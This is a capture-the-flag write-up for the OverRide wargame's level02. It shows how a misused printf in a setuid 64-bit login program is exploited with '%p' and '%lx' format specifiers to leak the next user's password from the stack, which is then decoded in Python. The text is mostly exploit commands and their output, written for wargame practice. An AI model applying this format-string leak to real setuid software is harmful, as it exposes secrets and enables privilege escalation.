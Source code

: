 # Level 02

We have a program requesting a user then a password:
```sh
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: 42
--[ Password: 42
*****************************************
42 does not have access!
level02@OverRide:~$
```

Reading the disassembled code, we see a misused printf. We're going to use the string format vulnerability.

```sh
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p
--[ Password:
*****************************************
0x7fffffffe500 does not have access!
```

It works! 
But we notice that the address is on 8 bytes, so we're on a 64bit program, as "file" can confirm.

```sh
$ file ./level02
./level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

Now we need to find a use for it. We can see that a call to open and read is made to the .pass of the next user at the start of the program. The contents of the file are therefore stored somewhere in memory. Let's try to find that location with the misused printf.

```sh
$ (python -c 'print("%lx." * 25)'; echo "AAAA";) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
7fffffffe500.0.2e.2a2a2a2a2a2a2a2a.2a2a2a2a2a2a2a2a.7fffffffe6f8.1f7ff9a08.2e.0.0.0.0.0.0.0.0.0.0.0.100000000.0.756e505234376848.45414a3561733951.377a7143574e6758.354a35686e475873 does not have access!
```

Oh, there's something that looks more like a string than an address, but we only have 4 of 8 bytes, and the code clearly explains that the string is 40 characters long, so we're missing a byte. 

```sh
$ (python -c 'print("%x" * 21 + ".%lx" * 5)'; echo "AAAA";) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
ffffe5000412a2a2a2a2a2a2a2affffe6f8f7ff9a08414141410000000000000.756e505234376848.45414a3561733951.377a7143574e6758.354a35686e475873.48336750664b394d does not have access!
```

Now that we've got our 5 bytes, we need to transform them into our flag, so we do the big endian transformation.

```sh
$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> hex_string = "48336750664b394d" + "354a35686e475873" + "377a7143574e6758" + "45414a3561733951" + "756e505234376848"
>>> byte_array = bytearray.fromhex(hex_string)
>>> result_string = byte_array.decode('utf-8')
>>> print(result_string)[::-1]
```